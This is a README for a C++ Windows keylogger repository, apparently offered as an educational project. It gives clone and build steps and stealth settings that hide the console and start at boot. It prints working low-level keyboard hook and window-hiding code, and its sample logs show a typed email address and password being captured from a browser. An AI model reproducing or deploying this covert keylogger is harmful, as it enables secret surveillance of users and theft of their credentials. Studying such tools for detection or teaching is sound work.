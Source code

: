 # Windows Keylogger Documentation

## Table of Contents
1. [Project Overview](#project-overview)
2. [Installation](#installation)
3. [Usage](#usage)
4. [Core Components](#core-components)
5. [Examples](#examples-)

## Project Overview📝
The Windows Keylogger is a C++ application demonstrating advanced keyboard monitoring capabilities using Windows API. It implements low-level keyboard hooks to capture keystrokes, tracks active windows, and maintains detailed logs with timestamps. The project showcases system programming concepts and Windows API integration for educational purposes.

## Installation⚙️
To compile and run the Windows Keylogger:

1. Clone the repository:
```bash
git clone https://github.com/RobCyberLab/Stealth-Key-Logger.git
```

2. Run KeyLogger.cp with Open in Visual Studio.

3. Required dependencies:
- Windows Operating System
- C++ Compiler (Visual Studio)
- Windows SDK

## Usage📖
1. Configure the application settings in the header:
```cpp
#define INVISIBLE  // Window visibility
#define BOOTWAIT   // Boot behavior
#define FORMAT 0   // Log format
```

2. Run the compiled executable:
- The program will start monitoring keystrokes
- Logs are saved to "keylogger.log"
- Press Ctrl+C to stop (if visible)
- To stop Key Capturing, open Task Manager and shut down the KeyLogger.exe executable

3. Configuration options:
   - **Visibility Modes**
     - VISIBLE: Shows console window
     - INVISIBLE: Hides console window
   - **Boot Options**
     - BOOTWAIT: Waits for system boot
     - NOWAIT: Starts immediately
   - **Format Options**
     - 0: Default format
     - 10: Decimal codes
     - 16: Hexadecimal codes

## Core Components🔐

### Keyboard Hook Implementation
```cpp
void SetHook() {
    _hook = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, NULL, 0);
}

LRESULT HookCallback(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0 && wParam == WM_KEYDOWN) {
        kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
        Save(kbdStruct.vkCode);
    }
    return CallNextHookEx(_hook, nCode, wParam, lParam);
}
```

### Key Processing System
```cpp
int Save(int key_stroke) {
    // Window tracking
    if (foreground) {
        // Log window changes with timestamp
    }
    
    // Key processing
    if (keyname.find(key_stroke) != keyname.end()) {
        // Handle special keys
    } else {
        // Process regular keys
    }
}
```

### Window Management
```cpp
void Stealth() {
#ifdef INVISIBLE
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), 0);
    FreeConsole();
#endif
}
```

## Examples📌

### Example 1: Basic Keystroke Logging
Log Output:
```
[Window: Notepad - at 2024-01-01T12:00:00] 
Hello_World[ENTER]
```
<p align="center">
  <em>Basic text input logging with window information</em>
</p>

### Example 2: Special Key Handling
Log Output:
```
[Window: Chrome - at 2024-01-01T12:01:00] 
user@email.com[TAB]password123[ENTER]
```
<p align="center">
  <em>Special key logging with formatting</em>
</p>

### Example 3: Window Change Tracking
Log Output:
```
[Window: Visual Studio - at 2024-01-01T12:02:00] 
int_main()[ENTER]

[Window: Chrome - at 2024-01-01T12:02:30] 
www.example.com[ENTER]
```
<p align="center">
  <em>Window change tracking with timestamps</em>
</p>

### Example 4: Multi-language Support
Log Output:
```
[Window: Word - at 2024-01-01T12:03:00] 
Hello_World_привет_мир
```
<p align="center">
  <em>Multi-language keyboard layout support</em>
</p>

Note: The application includes several key features:
- Real-time keystroke capture
- Active window tracking
- Timestamp logging
- Special key recognition

These features demonstrate advanced Windows programming concepts while maintaining educational value for system programming study.